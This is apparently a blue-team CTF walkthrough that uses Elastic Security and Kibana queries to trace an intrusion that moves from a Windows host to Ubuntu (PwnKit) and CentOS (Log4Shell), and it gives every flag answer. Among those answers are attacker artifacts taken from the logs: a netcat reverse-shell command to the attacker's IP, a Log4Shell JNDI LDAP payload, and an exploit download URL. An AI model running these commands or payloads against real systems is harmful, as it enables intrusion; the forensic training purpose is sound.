## Walkthrough

> 	In this challenge will focus on two main sections of Elastic, Elastic Security as we are using 
>	Elastic as SIEM and Kibana for analytics.

##### You can vist the challenge and download the file from the following link : [cyberdefenders.org](https://cyberdefenders.org/blueteam-ctf-challenges/90){:target="_blank" rel="noopener"}.

##### 💡 Don’t forget to change the time range to see all the logs.
---
#### 1. Who downloads the malicious file which has a double extension?

`🛡️ Elastic Security`

- For any malicious file there should be alert generated in elastic security, so let’s check that.

- Form the top left corner click into the Homburger icon > on security click Overview > in detection alert trend click view alerts.



- We know that malicious file has a double extension, so lets search using pattern: `file.name: *.*.*`

- Click on investigate in timeline to see it in timeline with more details.

- By default, file name field not added, you can add it by click into filed > type file.name > click file > then mark file.name.

- You can easily get the username and submit first flag. 



`🖥️ Kibana`

- We can get the flag using KQL `file.name: *.*.exe` in winlogbeat index:



> Flag: ahmed

#### 2. What is the hostname he was using?

`🛡️ Elastic Security`

- From the same screenshot you can see the hostname. 



`🖥️ Kibana`

- In kibana winlogbeat index extract host.name field from selected fields.



> Flag: DESKTOP-Q1SL9P2

#### 3. What is the name of the malicious file?

`🛡️ Elastic Security`

- Again From the same screenshot you can see the malicious file name.

 

`🖥️ Kibana`

- In kibana winlogbeat index extract file.name field from selected fields.



> Flag: Acount_details.pdf.exe

#### 4. What is the attacker's IP address?

`🛡️ Elastic Security`

- Back to alert detection, search using file name in the search bar `file.name : "Acount_details.pdf.exe"` then click on the analyze event box.

###### 💡 You can copy any object by moving the mouse over the object then click right icon to copy to the clipboard. 



- Click on the network events, then network start will see the destination ip.



- The destination IP is the attacker IP. 

`🖥️ Kibana`

- Search using `file.name : "Acount_details.pdf.exe" and user.name: "ahmed"` in winlogbeat index then extract destination.ip field from selected fields.



> Flag: 192.168.1.10

#### 5. Another user with high privilege runs the same malicious file. What is the username?

`🛡️ Elastic Security`

- From the security alerts make use of the search bar to easily get the answer, we already know the hostname and file name let’s search using them.

- Rather than ahmed only cybery how click the malicious file.



- Click into investigate in timeline to see more details.



`🖥️ Kibana`

- Search using `process.name : "Acount_details.pdf.exe" and NOT user.name: "ahmed" ` in winlogbeat index then extract user.name field from selected fields.



> Flag: cybery

#### 6. The attacker was able to upload a DLL file of size 8704. What is the file name?

`🛡️ Elastic Security`

- From the question we got to know that file is DLL so the extension is `.dll` and the size is 8704, let’s add this into search bar to look for specific data and get what we looking for.



- To investigate more click on the analyze box, from the file events check the last created file.



`🖥️ Kibana`

- Search using `file.size : 8704 and file.name : *.dll` in logs index then extract file.name field from selected fields.



> Flag: mCblHDgWP.dll

#### 7. What parent process name spawns cmd with NT AUTHORITY privilege and pid 10716?

`🛡️ Elastic Security`

- Search using `process.pid : 10716 and process.name : "cmd.exe"`, then click on analyze box on cmd.exe process you should able to see the process details and the parent process name.





- we can clearly say rundll32.exe is the parent process. 

`🖥️ Kibana`

- In kibana logs index search using `process.pid : 10716 and process.name : "cmd.exe"`  then extract process.parent.name field from selected fields.



> Flag: rundll32.exe

#### 8. The previous process was able to access a registry. What is the full path of the registry?

`🛡️ Elastic Security`

- The previous process is rundll32.exe you can search using previous query `process.pid : 10716 and process.name : "cmd.exe"` then investigate in parent process or use `process.name: "rundll32.exe" and process.pid : 8856` in events view.

- Click on the registry > click on the path under registry access to see full details.



`🖥️ Kibana`

- In kibana logs index search use `process.name: "rundll32.exe" and process.pid : 8856` then extract registry.path field from selected fields.



> Flag: HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled

#### 9. PowerShell process with pid 8836 changed a file in the system. What was that filename?

`🛡️ Elastic Security`

- From events view search using the following query `process.name: "powershell.exe" and process.pid : 8836`, will see all related events click on one of the analyze box.



- Click on files > click on the file chamge path in the left side to see all the details along with the filename. 



`🖥️ Kibana`

- In kibana logs index search using `process.name: "powershell.exe" and process.pid : 8836` then extract file.name field from selected fields.



> Flag: ModuleAnalysisCache

#### 10. PowerShell process with pid 11676 created files with the ps1 extension. What is the first file that has been created?

`🛡️ Elastic Security`

- From events view search using `process.pid: 11676 and file.extension : ps1`, click on the analyze box of the first event, make sure you are in the correct path by checking the pid of the powershell process.



- Click in files > first creation file > scroll down to see the file name.





`🖥️ Kibana`

- In kibana logs index search using `process.pid: 11676 and file.extension : ps1` then extract file.name field from selected fields.



> Flag: __PSScriptPolicyTest_bymwxuft.3b5.ps1

#### 11. What is the machine's IP address that is in the same LAN as a windows machine?

`🛡️ Elastic Security`

- Now we finish investigation in first windows machine let’s check another machine in the same LAN.

- From security go to hosts, we can see there are 5 hosts, we know that DESKTOP-Q1SL9P2 is windows and has IP 192.168.10.10





- If you simply click into ubuntu machine will note that the IP is 192.168.10.30 which means this machine are in same LAN with windows machine.



`🖥️ Kibana`

- In kibana logs index search using `host.ip: 192.168.10.0/24 and NOT host.ip: 192.168.10.10` then extract host.ip field from selected fields.



> Flag: 192.168.10.30

#### 12. The attacker login to the Ubuntu machine after a brute force attack. What is the username he was successfully login with?

`🛡️ Elastic Security`

- Scroll down in the same ubuntu host, you should note that there are so many failures which clearly indicates there is brute force attack.



- To identify the username that attacker was login with, check authentications the `cybery` user has no login failure but `Salem` and `root` have number of failures, by digging deep root last successful source is unknow which probably from the same host, it looks legitimate, but `Salem` has last successful source 192.168.10.10 which clearly indicate that the attacker did pivot through windows machine and login to ubuntu machine using `Salem` credentials.



`🖥️ Kibana`

- In kibana logs index search using `host.name: "ubuntu" and log.file.path : "/var/log/auth.log" and system.auth.ssh.event : "Accepted"` then extract user.name field from selected fields.


> flag: salem

#### 13. After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo?

`🛡️ Elastic Security`

- Now we have to investigate and know what attacker did, after he was able to access the machine, the attacker was able to download exploit from github using wget command this can be seen in event view.

- From security > events > click on view events, at the same time make your life easy and make use of search bar `host.name: "ubuntu" and user.name: "salem"`.



- As we can see there are so many events, but we already have hint in the question, attacker used wget which is process argument .so you can add  `process.args: wget` to the search query.



- Click on analyze box, then click on wget process in the left said will see the URL in process args



`🖥️ Kibana`

- In kibana logs index search using `host.name: "ubuntu" and user.name: "salem" and process.args: wget` then extract process.args field from selected fields.



> Flag: https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py

#### 14. In the Ubuntu machine, The attacker ran a python exploit, which created three new files simultaneously. What was the time when it was created?

`🛡️ Elastic Security`

- After he download the exploit he run it, this exploit create three new file to exploit the vulnerability, we know the exploit is python3 script so you can search using python3 as process arg. 
`host.name: "ubuntu" and user.name: "salem" and process.args : "python3"`



- Click on Analyze box, will see the python3 process created three files at the same time.



`🖥️ Kibana`

- In kibana logs index search using `host.name: "ubuntu" and user.name: "salem" and file.path: /home/salem/* and NOT file.path: /home/salem/.*` then extract @timestamp field from selected fields.



> Flag: @ Feb 2, 2022 @ 23:15:06.557

#### 15. After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash?

`🛡️ Elastic Security`

- After attacker run the exploit, it spawns new process called pkexec and change the uid to root, we can search in event views using query `host.name: "ubuntu" and process.executable :*pkexec and event.action: "uid_change"`.





`🖥️ Kibana`

- In kibana logs index search using `host.name: "ubuntu" and process.executable :*pkexec and event.action: "uid_change"` then extract process.hash.md5 field from selected fields.



> Flag: 3a4ad518e9e404a6bad3d39dfebaf2f6

#### 16. Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?

`🛡️ Elastic Security`

- Use the process id and hostname in search bar then look for exec event action `host.name: "ubuntu" and process.pid: 3011`, click into analyze box



- On bash process clearly, you can see the attacker get interactive shell from sh process.



`🖥️ Kibana`

- In kibana logs index search using `host.name: "ubuntu" and process.pid: 3011` then extract process.command_line field from selected fields.



> Flag: bash -i

#### 17. What is the hostname which alert signal.rule.name: "Netcat Network Activity"?

`🛡️ Elastic Security`

- After compromising these two machines attacker was able to directly access webserver and exploit very well know vulnerability in third system, to see the hostname of this system go to security > search using  `signal.rule.name: "Netcat Network Activity"` > view alerts



- Click on investigation to see the full view.



> Flag: CentOS

#### 18. What is the username who ran netcat?

`🛡️ Elastic Security`

- We can use KQL to the username by using `process.args : "nc"`, you can also specfiy the action as exec `process.args : "nc" and event.action : exec`.



`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract user.name field from selected fields.



> Flag: solr

#### 19. What is the parent process name of netcat?

`🛡️ Elastic Security`

- We got the netcat process from the previous question using `process.args : "nc" and event.action : exec`, click on the analyze box, you can clearly see the parent peocess of netcat. 





`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract process.parent.name field from selected fields.



> Flag: java

#### 20. If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?

`🛡️ Elastic Security`

- Attacker create reverse shell using netcat, we alredy get some information from the previous questions.

- Again you can use `process.args : "nc" and event.action : exec` and analyze the event then combine all arguments and get the answer. 





`🖥️ Kibana`

- In kibana logs index search using `process.args : "nc" and event.action : exec` then extract process.command_line field from selected fields.



> Flag: nc -e /bin/bash 192.168.1.10 9999

#### 21. From the previous three questions, you may remember a famous java vulnerability. What is it?

[Log4Shell](https://en.wikipedia.org/wiki/Log4Shell){:target="_blank" rel="noopener"}.

> Flag: Log4Shell

#### 22. What is the entire log file path of the "solr" application?

`🖥️ Kibana`

- The easy way to get the full path is by using kibana search bar with elastic common schema, we know the application name is solr, lets search using this in the search bar `log.file.path :  *solr*`, make sure to select filebeat as index.



> Flag: /var/solr/logs/solr.log

#### 23. What is the path that is vulnerable to log4j?

`🖥️ Kibana`

- we know the log path that all logs are stored in, lets dig deeper to see all details, click into the arrow to see log details 



- In message you can see the path that is vulnerable.



> Flag: /admin/cores

#### 24. What is the GET request parameter used to deliver log4j payload?

`🖥️ Kibana`

- From the same message of previous log you can see the GET request. 



> Flag: foo

#### 25. What is the JNDI payload that is connected to the LDAP port?

`🖥️ Kibana`

- From the same message or you can use `log.file.path :/var/solr/logs/solr.log ` we can see the jndi payload that are connected back to the ldap server in attacker machine, or you can search using `log.file.path :  "/var/solr/logs/solr.log" and message: *jndi*`, will get the same.



> flag: {foo=${jndi:ldap://192.168.1.10:1389/Exploit}}

##### ---------------------- I really hope you found this challenge and walkthrough useful.----------------------